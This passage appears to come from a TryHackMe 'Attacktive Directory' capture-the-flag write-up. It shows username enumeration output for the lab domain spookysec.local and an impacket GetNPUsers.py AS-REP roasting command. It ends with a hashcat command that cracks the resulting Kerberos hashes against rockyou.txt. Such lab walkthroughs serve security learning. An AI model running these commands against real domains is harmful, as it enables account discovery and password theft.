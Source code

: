 
```
2025/05/04 12:09:56 >  [+] VALID USERNAME:       james@spookysec.local
2025/05/04 12:10:10 >  [+] VALID USERNAME:       James@spookysec.local
2025/05/04 12:10:13 >  [+] VALID USERNAME:       robin@spookysec.local
2025/05/04 12:10:51 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/05/04 12:11:11 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/05/04 12:11:53 >  [+] VALID USERNAME:       backup@spookysec.local
2025/05/04 12:12:13 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/05/04 12:12:13 >  [+] VALID USERNAME:       svc-admin@spookysec.local
```

```
awk '{print $NF}' 1 | cut -d '@' -f1 | sort -u > users.txt
```

### Install impacket
```
https://github.com/fortra/impacket
```

```
python3 -m pipx install impacket
```

```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -usersfile /home/goose/Desktop/users.txt spookysec.local/
```

![Attacktivedirectory](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/AttacktiveDirectory/screenshots/20250504194147.png)
#### bruteforce kerberos
![Attacktivedirectory](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/AttacktiveDirectory/screenshots/20250504194402.png)

```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
